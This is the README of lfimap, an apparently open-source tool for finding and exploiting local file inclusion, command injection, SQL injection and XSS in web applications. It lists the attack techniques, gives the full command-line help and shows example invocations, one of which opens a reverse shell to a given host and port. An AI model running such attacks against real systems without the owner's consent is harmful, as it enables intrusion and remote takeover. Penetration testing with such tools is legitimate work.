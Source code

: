# lfimap
## Local file inclusion discovery and exploitation tool

### Main features
- Filter wrapper for arbitrary file inclusion
- Data wrapper for remote command execution
- Input wrapper for remote command execution
- Expect wrapper for remote command execution
- File wrapper for arbitrary file inclusion
- Path truncation for arbitrary file inclusion
- Remote file inclusion for code execution
- Command injection for remote command execution
- Generic time based blind sql injection testing
- Basic reflected XSS testing
- Support for POST argument testing
- Support for custom http headers
- Support for specifying cookies for authenticated requests
- Support for specifying web proxy to send requests through
- Support for specifying delay in between requests
- Support for payload manipulation via url and base64 encoding(s)
- Support for automated reverse shell access upon successful remote code execution

### Documentation
- [Installation](https://github.com/hansmach1ne/lfimap/wiki/Installation)

### What features are working
- Scan parameters for local file inclusion using wrappers (filter, input, data, expect, file)
- Scan parameters for path traversal (different bypasses, nullbyte, path normalization, string stripping injection, single and double URL encoding, etc..)
- Scan parameters for remote file inclusion (remote internet facing website, if LHOST address is provided test by hosting a file on local web server)
- Scan parameters for results-based and blind command injection (different injection sequences, icmp exfil, shell variable usage to bypass character restrictions)
- Scan parameters for basic blind sql injection (currently supports only MySQL and MsSQL)
- Scan parameters for unsanitized reflection (Basic reflected XSS check)
- Inline check for arbitrary open redirection
- Supports scans for GET and POST parameters
- Supports scans through a proxy
- Supports scans with custom session cookies, user-agent, referer and/or HTTP headers
- Supports scans and exploitation with delay in between requests
- Supports scans and exploitation for windows and linux web servers
- Supports automated reverse shell upon RCE detection (Current methods that support this are: data, input and expect wrappers, remote file inclusion, command injection, http access log poisoning)

### What features will work in future
- RCE attack using /self/fd, /self/environ techniques and http error log poisoning
- Better Generic blind SQLi test support for Oracle, MsSQL and PostgreSQL database engines
- Automatic parameter recognition, select parameters to test with * (star) value or with '-p' parameter
- Support testing with raw http request from a file
- Support to test and exploit HTTP header values
- Enumeration category of options that will use found vulnerabilities to find out more about the system
- Output results to a file
- False positive check

### -h, --help

```                  
usage: lfimap.py [-U [url]] [-F [urlfile]] [-C <cookie>] [-D <request>] [-H <header>] [-P <proxy>] [--useragent <agent>] [--referer <referer>] [--param <name>] [--no-stop]
                 [--http-ok <number>] [-f] [-i] [-d] [-e] [-t] [-r] [-c] [--file] [--xss] [--sqli] [--info] [-a] [-x] [--lhost <lhost>] [--lport <lport>] [-wT <path>]
                 [--use-long] [-v] [-h]

lfimap, Local File Inclusion discovery and exploitation tool

MANDATORY:
  -U [url]             		 Specify url, Ex: "http://example.org/vuln.php?param=PWN" 
  -F [urlfile]         		 Specify url wordlist (every line should have --param|'PWN'.)

GENERAL OPTIONS:
  -C <cookie>          		 Specify session cookie, Ex: "PHPSESSID=1943785348b45"
  -D <request>         		 Do HTTP POST value test. Ex: "param=PWN"
  -H <header>          		 Specify additional HTTP header(s). Ex: "X-Forwarded-For:127.0.0.1"
  -P <proxy>           		 Specify Proxy IP address. Ex: "http://127.0.0.1:8080"
  --useragent <agent>  		 Specify HTTP user agent
  --referer <referer>  		 Specify HTTP referer
  --param <name>       		 Specify different test parameter value
  --no-stop            		 Don't stop using same method upon findings
  --http-ok <number>   		 Specify http response code(s) to treat as valid

ATTACK TECHNIQUE:
  -f, --filter         		 Attack using filter:// wrapper
  -i, --input          		 Attack using input:// wrapper
  -d, --data           		 Attack using data:// wrapper
  -e, --expect         		 Attack using expect:// wrapper
  -t, --trunc          		 Attack using path truncation with wordlist (default "short.txt")
  -r, --rfi            		 Attack using remote file inclusion
  -c, --cmd            		 Attack using command injection
  --file               		 Attack using file:// wrapper
  --xss                		 Test for reflected XSS
  --sqli               		 Test for SQL injection
  --info               		 Test for basic information disclosures
  -a, --all            		 Use all available methods to attack

PAYLOAD OPTIONS:
  -x, --exploit        		 Exploit to reverse shell if possible (Setup reverse listener first)
  --lhost <lhost>      		 Specify local ip address for reverse connection
  --lport <lport>      		 Specify local port number for reverse connection

WORDLIST OPTIONS:
  -wT <path>           		 Specify path to wordlist for truncation test modality
  --use-long           		 Use "wordlists/long.txt" wordlist for truncation test modality

OTHER:
  -v, --verbose        		 Print more detailed output when performing attacks
  -h, --help           		 Print this help message

```
### Examples 

#### 1) All attacks with '-a' (filter, input, data, expect and file wrappers, remote file inclusion, command injection, XSS, error disclosure).
`python3 lfimap.py -U "http://IP/vuln.php?param=PWN" -C "PHPSESSID=XXXXXXXX" -a`  

![Lfimap-1](https://user-images.githubusercontent.com/57464251/186299395-c6a91666-0e95-484e-8537-6f248d257f5b.png)


#### 2) Reverse shell command execution attack with '-x'
`python3 lfimap.py -U "http://IP/vuln.php?param=PWN" -C "PHPSESSID=XXXXXXXX" -a --lhost IP --lport PORT -x`  

![Lfimap-2](https://user-images.githubusercontent.com/57464251/186299661-7d6b480b-953f-4a7e-a806-5f39435f07fd.png)


#### 3) Post argument testing with '-D'

`python3 lfimap.py -U "http://IP/index.php" -D "page=PWN" -a`

![Lfimap-3](https://user-images.githubusercontent.com/57464251/186302047-0a2e9ab9-e4f0-43bb-b245-0235b6950ea0.png)


If you notice any issues with the software, please open up an issue. I will gladly take a look at it and try to resolve it. <br>
Pull requests are welcome.

[!] Disclaimer: Lfimap usage for attacking web applications without consent of the application owner is illegal. Developers assume no liability and are 
not responsible for any misuse and damage caused by using this program.
